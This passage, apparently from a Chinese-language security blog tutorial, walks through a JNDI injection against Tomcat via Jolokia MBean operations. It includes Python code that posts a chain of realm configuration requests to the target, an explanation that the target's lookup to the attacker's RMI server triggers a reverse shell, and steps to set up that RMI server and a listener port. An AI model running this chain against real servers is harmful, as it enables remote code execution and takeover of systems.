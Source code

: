 ```python
start = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "EXEC",
"operation": "start",
"arguments": []
} //相当于保存配置，然后重新运行

expoloit = [create_JNDIrealm, set_contextFactory, set_connectionURL, stop_JNDIrealm, start]

for i in expoloit:
rep = req.post(url, json=i) // 使用post 发送数据
pprint(rep.json())
```



* 即通过post请求，向目标发送我们的rmi服务器，以及使用的方法
* 然后我们指定的方法：ExecByEL    是用于反弹shell的
* 当目标使用lookup来我们的服务器来查找的话，就触发反弹shell，从而实现攻击















## 操作流程

### 1. rmi服务配置

配置好服务端口，然后配置执行的命令（当然默认的也可以）

![](https://res.cloudinary.com/valent/image/upload/v1605875785/Blog/JavaWeb/JNDI/1_zj2m6a.png)




这里设置的服务端口为：2020

然后tcp连接端口设置的为：6666（之后监听该端口就行）



配置完成之后将项目打包

```cmd
mvn clean install
```


![](https://res.cloudinary.com/valent/image/upload/v1605875785/Blog/JavaWeb/JNDI/2_xkcnmz.png)


将打包完成的jar包上传到我们的服务器当中

